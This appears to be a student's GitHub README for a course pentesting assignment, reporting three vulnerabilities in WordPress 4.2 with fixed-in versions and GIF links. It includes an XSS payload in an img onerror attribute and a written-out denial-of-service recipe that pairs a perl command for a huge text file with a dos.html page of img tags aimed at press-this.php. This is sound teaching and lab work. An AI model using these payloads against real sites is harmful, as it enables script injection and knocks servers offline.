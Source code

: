 # Codepath-week7-assignment
this is the codepath week 7 assignment
# Project 7 - WordPress Pentesting

Time spent: **infinity** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS in Media
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.7.5
  - [x] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/268E5800-5A93-4B21-894F-FCF51EDDC791.GIF
  - [x] Steps to recreate: I NO JOKE FOUND THIS ONE MYSELF
  when you cant find a page there is a wordpress search bar for which you can type in almsot any XSS code and get it to run

1. (Required) Vulnerability Name or ID
  - [x] Summary: Post XSS
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.16
  - [x] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/26853F0C-8FF8-45CD-A293-118BEDE1A3D8.GIF
  - [x] Steps to recreate: be an admin on a wordpress site and make a new (malicious) post that contains <img src=a onerror=(1)>

1. (Required) Vulnerability Name or ID
  - [x] Summary: CSRF and a dash of XSS
    - Vulnerability types:CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: I would post a GIF walkthrough but I do not have an external server to do this one
  - [x] Steps to recreate: On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt

Next, create a file called dos.html on the external server with enough entries to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external server> with the external server)

Now have a logged in admin visit dos.html. The server will be down for a while.

## Bonus!
  https://github.com/mcp352/Codepath-week7-assignment/blob/master/EB38FDF2-8A6E-4C7A-AFB9-0EAB312CBC3B.GIF
  funny story is that whenever I load any page after XSS attack it ALWAYS loads the prompt even when the XSS is not in the search bar

## Resources


GIFs created with [SnagIt].

## License

    Copyright [2017] [Chase Pounders]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

